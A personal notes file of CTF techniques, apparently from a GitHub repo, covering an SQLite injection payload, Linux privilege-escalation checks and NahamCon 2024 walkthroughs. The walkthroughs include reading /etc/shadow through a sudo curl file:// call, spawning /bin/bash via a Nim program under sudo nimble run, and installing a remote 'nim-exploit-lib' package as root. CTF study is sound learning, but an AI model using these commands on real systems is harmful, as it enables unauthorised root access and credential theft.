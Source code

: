 # This is a file i'll include things i didn't know and or find after reading some write-ups

## Tools

- flask-unsign
- base-crack

## Urls

- `https://dogbolt.org/`
- `https://appetize.io/`

## apps

- `https://play.google.com/store/apps/details?id=com.arara.q`

## sql injections

- ' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--

## Privilege Escalation

### cat .bash_history

This might show what someone has already done.
Maybe shows passwords from sshpass.

### cat /etc/passwd | grep sh

This might show some other users, and we grep to what users have shells.

### sudo -l

shows what sudo accesses a users have

#### Nahamcon-2024/curly_fries challenge

For this challenge we logged in as user:userpass with ssh and found access to the fry users directory, including its history file, and found the fry user's password, making us able to switch to the fry user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-curlly-fries-sudo-l.png)

This shows the user fry can execute a certain curl command as root without the need for a password.
Using "sudo curl 127.0.0.1:8000/health-check file:///etc/shadow".
Then we can crack the hashes of the machine and pawn it.

See `https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon-2024/Misc/Curly_Fries.md`

#### Nahamcon-2024/jack_be part 1

For this challenge we logged in as user:userpass with ssh.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be.png)

This shows the user jack can run a use nim run as root without a password.
So we create a nim project, and file that executes commands.

```bash
nimble init .

echo '#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()'>./src/main.nim

chmod 777 .
nimble build
sudo -u jack /usr/bin/nimble run
```

And where in jack

#### Nahamcon-2024/jack_be part 2

In part 1 we logged in to another user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be2.png)

From here we can continue with `sudo -l` and we can see we can use `sudo nimble install *` without a password and can continue escalating our privilege with package you made yourself.

```bash
sudo -l
sudo -u root /urs/bin/nimble install https://github.com/ThorD125/nim-exploit-lib
```

See `https://game0v3r.vercel.app/blog/nahamconctf-miscellaneous`

## extra s

Very specific case but still interesting.

### Make Self Extracting

If there is a file,
Including the hex data of the file to extract,
The following command can be used to write it to a file:
`tail -n 75 self_extractor > result`
